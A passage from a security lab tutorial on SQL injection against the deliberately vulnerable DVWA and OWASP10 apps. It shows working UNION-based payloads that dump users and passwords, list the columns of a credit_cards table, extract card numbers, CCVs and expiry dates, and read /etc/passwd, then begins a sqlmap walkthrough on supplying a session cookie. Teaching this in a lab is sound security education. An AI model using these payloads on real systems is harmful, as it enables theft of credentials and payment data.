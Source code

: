 `' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`

### List all columns in the ‘credit_cards’ table. 

Display all the columns fields in the information_schema ‘credit_cards’ table. 

The "surname" field in the rendered HTML shows these column fields.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'credit_cards' #`

### Display credit card information 

Display credit card numbers, CCV, and expiration date from `credit_cards` table.

Note: the route's query is designed to return only two fields, so we must concatenate (`CONCAT`) the last two fields in our `UNION`'ed query.

`' and 1=0 union select null, CONCAT(0x0a, ccnumber, 0x0a, ccv, 0x0a, expiration) from owasp10.credit_cards#`

### Print contents of the passwd file

`' union select null, LOAD_FILE('/etc/passwd') #`

## SQLMap demo

You can automate testing for and exploiting SQL injection vulnerabilities using the open-source python tool [`sqlmap`](https://github.com/sqlmapproject/sqlmap). This tool comes pre-installed in your Kali. 

### Provide a valid COOKIE

To probe DVWA's `/dvwa/vulnerabilities/sqli/` route, `sqlmap` needs to be able to make authenticated requests. This means we need to first log in to DVWA, and then give `sqlmap` our session cookie.

In Firefox on Kali, after you have logged into DVWA, open the developer console (press `F12`) and select `Console`. Run the command `document.cookie` to view the cookies for the current site:

{% include lab-image.html image='dvwa-console-cookie.png' %}

Copy the output. You will pass this to `sqlmap` as the `--cookie` argument. This will let `sqlmap` make authenticated requests, and the DVWA security will be set to "LOW" for those requests. 

For convenience, set your cookie value to a variable in your shell session using `export`. This will work for the lifetime of your shell. For example, if my cookie were as shown in the image below, I would run the following (displayed as a screenshot to prevent copy-pasting, which will not work):

{% include lab-image.html image='dvwa-console-cookie-export.png' %}

And then all of my later commands would access this variable via `--cookie="$COOKIE"`. The example commands below use this variable. **This will not work if you do not set your `COOKIE` variable to the value from your own session.**

A correct `COOKIE` usage will look like this:
